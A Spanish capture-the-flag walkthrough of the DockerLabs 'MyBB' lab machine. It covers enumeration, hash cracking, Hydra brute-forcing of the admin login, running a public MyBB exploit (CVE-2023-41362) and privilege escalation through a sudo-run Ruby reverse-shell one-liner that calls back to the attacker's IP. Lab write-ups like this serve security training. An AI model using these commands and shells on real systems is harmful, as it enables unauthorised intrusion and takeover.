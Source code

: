 # MyBB

# Enumeración

Empezamos con un escaneo de los puertos.

`sudo nmap -p- --open -sC -sS -sV --min-rate=5000 -n -Pn -vvv 172.17.0.2 -oN MyBB`  

- `-p-` : Todos los puertos
- `--open` : Todos los puertos abiertos
- `-sC` : Escaneo de todos los scripts
- `-sS` : Escaneo de todos los servicios
- `-sV` : Escaneo de todas las versiones de los servicios
- `--min-rate 5000` : Establece mínimo envío de paquetes mínimos 5000/s
- `-n` : No aplica resolución DNS
- `-Pn` : Omisión de detección de hosts
- `-vvv` : Verbose - Muestra toda la información

# Resultado escaneo  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_1.png)     

Tenemos solo un puerto abierto, el 80.  
Echemos un vistazo para ver qué corre en ese puerto.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_2.png)      

Veamos esta página y si intentamos hacer clic en "Ir al foro", veremos que somos redirigidos a la dirección panel.mybb.dl.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_3.png)   

Modifiquemos entonces nuestro archivo de hosts y agreguemos esta entrada, y volvemos a ver que corre a esta dirección.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_4.png)   

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_5.png)    

Hacemos un poco de fuzzing con la herramienta **gobuster**.  
Para ello ejecutamos el comando:  

`sudo gobuster dir -u http://panel.mybb.dl/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-big.txt `  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_6.png)     

Vemos que hay 2 entradas interesantes. Una llamada backups y la otra admin.  

Analicemos el recurso backups.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_7.png)    

Nos llama la atención una línea en particular donde se ve que un usuario llamado alice intentó acceder con una contraseña que aparece hasheada.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_8.png)      

Copiamos la cadena en un archivo de texto que llamaremos **hash** y lo pasaremos a John the Ripper para ver si podemos descubrir la contraseña.  
Ejecutamos el comando:  

`john --wordlist=/usr/share/wordlists/rockyou.txt hash`  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_9.png)       

¡Bien!   
¡Tenemos una contraseña!   
Intentemos iniciar sesión en el foro.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_10.png)   

Nos devuelve un error.  

Echemos un vistazo a la dirección: http://panel.mybb.dl/admin/  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_11.png)   

Nos encontramos frente a un panel de inicio de sesión.  
Lo que podemos hacer es intentar realizar un ataque de fuerza bruta con Hydra.  
Usaremos el usuario **admin**, que vimos ser un usuario válido al analizar previamente el registro de respaldo.  

`sudo hydra -t 64 -l admin -P /usr/share/wordlists/rockyou.txt panel.mybb.dl http-post-form "/admin/index.php:username=^USER^&password=^PASS^:The username and password combination you entered is invalid."`  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_12.png)   

El comando funcionó, aunque nos devolvió una serie de falsos positivos.  
Después de probar pacientemente algunos de ellos, vemos que podemos iniciar sesión con la contraseña **babygirl**.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_13.png)     

Una vez dentro, nos llama la atención el mensaje que nos informa que la versión no está actualizada.  
Bien, tenemos el número exacto de la versión de MyBB, así que buscaremos en internet si hay vulnerabilidades conocidas.  

Descubrimos que esta versión es vulnerable (CVE-2023-41362 - MyBB ACP RCE).  
Descargamos el exploit que encontramos en GitHub en la siguiente dirección: [https://github.com/SorceryIE/CVE-2023-41362_MyBB_ACP_RCE](https://github.com/SorceryIE/CVE-2023-41362_MyBB_ACP_RCE).  
Ejecutamos el script con el comando:  

`python3 exploit.py http://panel.mybb.dl admin babygirl`  

e intentamos enviarnos una reverse shell.  
Vamos al sitio revshells.com [https://www.revshells.com/](https://www.revshells.com/) y en este caso funcionará la reverse shell en Perl.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_14.png)      

Nos ponemos a escuchar en el puerto 6969 y ejecutamos el comando.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_15.png)     

¡Perfecto, estamos dentro!  
Ahora, como de costumbre, realizaremos el tratamiento de la shell para poder trabajar más cómodamente.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_16.png)     

# Escalada de privilegios

Ejecutamos los típicos comandos:

`sudo -l`  
`find / -perm -400 2>/dev/null`

para intentar elevar nuestros privilegios, pero no obtenemos ninguna información interesante.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_17.png)       

Vemos entonces si en la máquina existe un usuario llamado **alice** del cual tenemos una contraseña que descubrimos previamente.    

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_18.png)       

Bien, intentemos iniciar sesión como **alice**.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_19.png)       

¡Excelente! Ahora ejecutemos `sudo -l` para ver si podemos escalar nuestros privilegios.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_20.png)      

Interesante, podemos ejecutar archivos `.rb` con permisos de sudo.  
Lo que haremos será crear un script en Ruby que nos envíe una reverse shell, por ejemplo, en el puerto 7070.  
Una vez más, usaremos el sitio web de revshells.com para generar nuestro script.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_21.png)    

Para crear el script Ruby con echo desde el terminal, puedes usar el siguiente comando:  

`echo "ruby -rsocket -e'spawn(\"sh\",[:in,:out,:err]=>TCPSocket.new(\"172.17.0.1\",7070))'" > reverse_shell.rb`  

Ahora daremos permisos de ejecución al script recién creado con el comando `chmod +x reverse_shell.rb`.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_22.png)      

Ahora no nos quedará más que ponernos a escuchar en el puerto 7070 de nuestra máquina atacante y ejecutar el comando `sudo ./reverse_shell.rb` en la máquina víctima.  

![M](https://github.com/giustiand/DockerLabs-Writeups/blob/main/Medio/images/MyBB/M_23.png)     

¡Y listo!  
¡Somos root!













